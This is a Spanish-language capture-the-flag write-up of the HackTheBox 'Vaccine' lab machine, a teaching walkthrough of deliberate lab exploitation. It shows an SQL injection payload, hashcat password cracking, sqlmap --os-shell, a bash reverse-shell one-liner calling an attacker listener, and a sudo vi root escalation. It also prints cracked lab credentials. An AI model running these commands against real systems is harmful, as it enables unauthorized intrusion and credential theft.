## Introduction

En este Write-Up sobre la máquina Vaccine de **[HackTheBox](https://app.hackthebox.com/)**, comienzo identificando los puertos 21/FTP, 22/SSH y 80/HTTP abiertos. Aprovecho el acceso anónimo en FTP para encontrar una carpeta encriptada en PKZIP, la cual desencripto con Hashcat. Dentro, descubro un archivo con credenciales encriptadas en MD5; al descifrarlas, utilizo las credenciales para acceder a un panel de autenticación en el sitio web. Allí, detecto un input vulnerable a SQLi, confirmado con SQLMap, revelando una base de datos PostgreSQL. Usando el parámetro --os-shell de SQLMap, obtengo una shell en el sistema, donde encuentro credenciales en texto claro que me permiten acceder al SSH. Finalmente, escalo privilegios explotando una vulnerabilidad en el editor de texto vi.

~~~
Platform: HackTheBox
Level: VeryEasy
OS: Linux
~~~

## Reconnaissance

~~~
Target: 10.129.95.174
~~~

Comenzamos con el comando **ping**, que utiliza el **ICMP (Protocolo de Control de Mensajes de Internet)**. Este comando envía un mensaje de “echo request” a una dirección IP y espera recibir un mensaje de “echo response”. Este proceso permite verificar si una máquina en la red es accesible y medir la latencia. Además, se puede inferir que es una máquina **Linux** debido al **TTL = 63**



## Scanning

El paquete fue recibido correctamente por la máquina objetivo. Verificada la conexión, realizamos un escaneo de múltiples etapas con la herramienta **Nmap**. Primero, identificamos los puertos abiertos:



Se encontraron los puertos abiertos **21/tcp**, **22/tcp** y **80/tcp**. A continuación, realizamos un escaneo más detallado utilizando la la flag `-sCV` para obtener más información de los puertos:



## Enumeration

### 21/tcp FTP

El puerto **21/tcp** ejecuta el servicio `FTP vsftpd 3.0.3`. FTP es un protocolo que permite transferir archivos directamente de un dispositivo a otro. El escaneo informa: `ftp-anon: Anonymous FTP login allowed` por lo que es posible acceder al servicio FTP como Anonymous.

### 22/tcp SSH

El puerto **22/tcp** ejecuta el servicio `SSH OpenSSH 8.0p1`. SSH es un protocolo de red destinado principalmente a la conexión con máquinas a las que accedemos por línea de comandos. No se observan vulnerabilidades de momento. 

### 80/tcp HTTP

El puerto **80/tcp** ejecuta el servicio `HTTP Apache/2.4.41`. El **HTTP** (HyperText Transfer Protocol) es un protocolo de comunicación utilizado para la transferencia de información en la web. Permite que navegadores y servidores intercambien datos, como páginas web, imágenes y otros recursos, facilitando la navegación en Internet.

### Anonymous FTP Access

Procedo a ingresar en el servicio FTP como Anonymous:

> El inicio de sesión anónimo en FTP es **una función que permite a los usuarios iniciar sesión en un servidor FTP con un nombre de usuario común, como "anonymous" o "ftp"** . No requiere contraseña o, en ocasiones, acepta cualquier contraseña. Esta función permite a los usuarios acceder a archivos públicos y descargarlos sin necesidad de una cuenta específica en el servidor.



Listo los archivos y directorios con el comando `ls` y observamos el archivo comprimido `backup.zip`. Lo descargo en mi máquina local con el comando `get` 



Al intentar descomprimir el archivo `backup.zip` con la herramienta `unzip` nos indica que es necesario ingresar una contraseña:



### Using Zip2John

> `zip2john` es una herramienta utilizada para convertir archivos comprimidos protegidos con contraseña (archivos `.zip`) en un formato que pueda ser utilizado por herramientas de fuerza bruta para intentar recuperar la contraseña del archivo.

Utilizo la herramienta `zip2john` desde la página **[hashes.com](https://hashes.com/es/johntheripper/zip2john)**



Descargo el archivo resultante `hash.txt` y lo nombro posteriormente a `hash`



Luego utilizo la `hash-identifier` para identificar el tipo de hash desde la página **[hashes.com](https://hashes.com/en/tools/hash_identifier)** Nos indica que es posible que sea un tipo de hash `PKZIP (Compressed)`



### Cracking hash with hashcat 

Utilizo hashcat para crackear el hash. En primer lugar con `hashcat --help` identifico el modo a utilizar, en este caso es el `17220` ya que como observamos es `PKZIP (Compressed Multi-File)`



Con el comando `hashcat -m 17220 hash /usr/share/wordlists/rockyou.txt` 

- `hashcat`: herramienta para cracking de hashes
- `-m 17220`: modo que selecciona el tipo de hash a crackear
- `hash`: nombre del archivo que contiene el hash a crackear
- `/usr/share/wordlists/rockyou.txt`: ubicación del diccionario a utilizar



Una vez ejecutado el comando notamos que crackeo correctamente el hash:

- **Hash resultante**: 741852963



Con la contraseña obtenida, procedemos a descomprimir el archivo. Al hacerlo, encontramos los archivos `index.php` y `style.css`. Al inspeccionar el contenido del archivo `index.php`, descubrimos que contiene credenciales, y parece que la contraseña está encriptada:



Para identificar el tipo de hash, usamos nuevamente la herramienta `hash-identifier` de la página **[hashes.com](https://hashes.com/en/tools/hash_identifier)**. Esto nos indica que el hash es de tipo **MD5**:



A continuación, creamos un archivo llamado `hash2` y añadimos el hash MD5 al contenido. Usamos `hashcat` para crackear el hash, esta vez en **modo 0**, ya que corresponde al hash MD5:



Al finalizar el crackeo, obtenemos la contraseña:



Ahora tenemos las siguientes credenciales:

- Username: `admin`
- Password: `qwerty789`

## Exploitation

El objetivo tenia el puerto **80/tcp** ejecutando un servidor web. Al acceder al mismo `http://10.129.95.174` nos encontramos ante un panel de autenticación en el cual ingresamos las credenciales: 



Una vez ingresadas las credenciales se ingresa correctamente hacia `http://10.129.147.34/dashboard.php`. Podemos observar cierta información. La que más nos llama la atención es el input de busqueda:



En primer lugar intento un **LFI (Local File Inclusion)** pero no obtenemos resultados: 



### SQLi Vulnerabilty

> **SQL Injection**: Una inyección de SQL, a veces abreviada como SQLi, es un tipo de vulnerabilidad en la que un atacante usa un trozo de código SQL (Structured Query Language) para manipular una base de datos y acceder a información potencialmente valiosa. Es uno de los tipos de ataques más frecuentes y amenazadores, ya que puede atacar prácticamente cualquier sitio o aplicación web que use una base de datos basada en SQL (la mayoría). **[Fuente](https://latam.kaspersky.com/resource-center/definitions/sql-injection)**

Al ingresar un payload de **SQLi (SQL Injection)** en el input `' OR '1'='1` llama la atención que nos indica un error `ERROR: syntax error at near "%" LINE 1: Select * from cars where name like %' OR '1'='1%^ ` esto lleva a inferir que probablemente es vulnerable a ataques de inyección SQL. Ademas, notamos que al realizar la consulta mediante el input de busqueda se ve reflejado en la URL: `http://10.129.247.34/dashboard.php`
  


### Using SQLMAP  

> **SQLmap**: Es una herramienta open source programada en Python, diseñada para automatizar el proceso de detección y explotación de vulnerabilidades de inyección SQL en [aplicaciones web](https://www.dragonjar.org/pentesting-de-aplicaciones-web.xhtml). Su amplia gama de funcionalidades permite a los usuarios listar bases de datos, recuperar hashes de contraseñas, privilegios y más, en el host objetivo después de detectar inyecciones SQL. **[Fuente](https://dragonjar.org/sqlmap-herramienta-automatica-de-inyeccion-sql.xhtml)**

Utilizaremos la herramienta `sqlmap`, que permite automatizar el proceso de detección de vulnerabilidades de **SQL Injection** en aplicaciones web. Con esta herramienta, podremos verificar si un parámetro específico es susceptible a este tipo de ataque. El comando que usaremos es el siguiente:

~~~SHELL
sqlmap -u '<URL_DEL_PARAMETRO_A_TESTEAR>' --cookie="PHPSESSID=<VALOR_DE_LA_COOKIE_DE_SESIÓN>"
~~~



SQLmap informa que el back-end DBMS parece ser `PostgreSQL`. Ademas, indica que el parametro `?search=` es vulnerable:



Con el parametro `--os-shell` sqlmap nos permite obtener una shell lo que permite ejecutar comandos de manera arbitraria en el sistema objetivo:



### Reverse Shell

Aprovechando lo anterior, procedo a ejecutar una **reverse shell**. En primer lugar, se coloca en escucha a **Netcat** en el puerto 443 con el comando `sudo nc -lvnp 443`



Luego de aquello, en la shell de sqlmap ejecutamos el siguiente comando: `bash -i >& /dev/tcp/10.10.14.176/443 0>&1`



Comprobamos la terminal donde iniciamos **Netcat** y efectivamente la **reverse shell** funcionó correctamente:



Una vez dentro del sistema utilizo el comando `find / -name user.txt 2>/dev/null` para encontrar la ubicación de la flag `user.txt` 



### SSH Access

Utilizo el comando `find / -type f -name *.php 2>/dev/null` para encontrar archivos con la extensión PHP. Encuentra el archivo `dashboard.php`. Me dirijo a la ruta `/var/www/html/` y con `cat dashboard.php` inspecciono el archivo:



En el archivo `dashboard.php` encuentro las credenciales: 

- User: `postgres`
- Password: `P@s5w0rd!`



Accedo mediante SSH mediante las mismas credenciales: 



## Privilege Escalation

Una vez dentro de SSH ejecuto el comando `sudo -l` para listar los permisos **sudo** del usuario actual. Nos informa que el usuario **postgres** puede ejecutar el siguiente comando en la máquina vaccine: `(ALL) /bin/vi /etc/postgresql/ll/main/pg_hba.conf`



El permiso específico indica que el usuario puede editar el archivo `pg_hba.conf` como root utilizando `sudo`. Al utilizar `cat /etc/postgresql/ll/main/pg_hba.conf` para inspeccionar notamos que es un archivo de configuración:



Utilizo **[GTFObins](https://gtfobins.github.io/)** para encontrar la forma de escalar privilegios mediante el editor de texto `vi` 



Utilizaremos la forma **(b)** debido a que solo tenemos permiso para usar `vi` como superusuario exclusivamente en el archivo específico `pg_hba.conf` 

En primer lugar ejecutamos `:set shell=/bin/bash` lo que establece el intérprete de comandos que se usará cuando se invoque un shell desde dentro del editor:



Una vez configurado el interprete de comandos ejecutamos el comando **`:shell`** que ejecuta un shell directamente desde `vi` y dado que estamos ejecutando el editor de texto con permisos **root** el shell invocado hereda los mismos permisos de **root**



Luego de ejecutarlo deberiamos tener una shell con máximos privilegios: 



Una vez obtenido control total de la máquina hemos finalizado y por ende terminamos la máquina Vaccine:

